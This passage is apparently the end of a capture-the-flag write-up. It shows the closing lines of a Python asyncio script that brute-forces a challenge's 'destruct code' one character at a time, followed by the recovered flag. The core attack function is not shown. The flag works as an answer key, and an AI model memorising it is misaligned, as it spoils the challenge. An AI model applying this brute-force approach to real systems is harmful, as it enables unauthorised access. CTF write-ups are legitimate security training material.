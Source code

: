 ```py
            char = await brute_char(ip, q, c)
            flag.append(char)
            print(
                f"\n[*] Char {c} of destruct code {code_num} is {char!r}, flag: {''.join(flag)!r}"
            )
    print("".join(flag))


if __name__ == "__main__":
    asyncio.get_event_loop().run_until_complete(main())
```

Running the script produces the following flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
